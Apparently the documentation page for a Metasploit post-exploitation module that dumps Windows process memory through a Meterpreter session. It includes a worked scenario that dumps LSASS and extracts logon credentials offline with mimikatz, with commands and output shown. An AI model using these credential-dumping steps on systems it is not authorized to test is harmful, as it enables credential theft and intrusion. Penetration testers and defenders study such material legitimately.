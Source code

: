 ## Vulnerable Application

This module dumps the memory for any process on the system and retrieves it for later analysis.
The user must have sufficient permissions to read the memory of that process. Low-privilege users
should be able to read any of their own processes. High-privilege users should be able to read
any unprotected process.

This module only works on a Meterpreter session on Windows.

## Verification Steps

  1. Start `msfconsole`
  1. Get meterpreter session on a Windows host
  1. Do: `use post/windows/gather/memory_dump`
  1. Do: `set SESSION <session id>`
  1. Do: `set PID <process id>`
  1. Do: `set DUMP_PATH <path on remote system>`
  1. Do: `set DUMP_TYPE <standard|full>`
  1. Do: `run`
  1. You should be able to see that the module has dumped the process to a file and starts downloading it.
  1. You should be able to see, whether the module succeeds or fails, that the file on the remote system has been deleted.

## Options

### DUMP_PATH

The path that the memory dump will be temporarily stored at. This file is then
downloaded and deleted at the end of the run. This file should be in a writable
location, and should not already exist.

### PID

The ID of the process to dump. To find the PID, in your Meterpreter session,
type `ps`. To find a process by name, type `ps | <process name>`.

### DUMP_TYPE

Two options are provided for creating a memory dump:

- Full

This option retrieves the entire memory address space, including all DLLs, EXEs
and memory mapped files. For dumping LSASS for offline analysis, this option
seems to be preferable. However, the file size can be significantly larger than
the Standard option.

- Standard

This option retrieves most data from the process, with the exception of DLLs,
EXEs and memory mapped files. As a result, some analysis tools may have trouble
with automated analysis, however any sensitive information such as passwords
which are stored in memory should be part of this dump. This data could
possibly be retrieved using a tool such as `strings`. The file size should be
significantly smaller than the Full option.

## Scenarios

**Dumping lsass**

Retrieving lsass (after getsystem)

```
meterpreter > ps | lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 700  536   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > 
Background session 4? [y/N]  
msf6 post(windows/gather/memory_dump) > set pid 700
pid => 700
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DemoPC
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.31 MiB)
[+] Memory dump stored at /home/user/.msf4/loot/20210505174955_default_192.168.XXX.XXX_windows.process._647943.bin
[*] Deleting minidump from disk
[*] Post module execution completed
```

Then in mimikatz (offline):

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin
Switch to MINIDUMP : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin'

mimikatz # sekurlsa::logonPasswords
Opening : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin' file for minidump...

Authentication Id : 0 ; 280858 (00000000:0004491a)
Session           : RemoteInteractive from 2
User Name         : user
Domain            : DemoPC
Logon Server      : DemoPC
Logon Time        : 5/05/2021 3:15:10 PM
SID               : S-1-5-21-920577323-754201681-977916534-1001
        msv :
         [00000003] Primary
         * Username : user
         * Domain   : DemoPC
         * NTLM     : (redacted, but verified)
         * SHA1     : (redacted)
        tspkg :
        wdigest :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        kerberos :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        ssp :
        credman :
        cloudap :
```


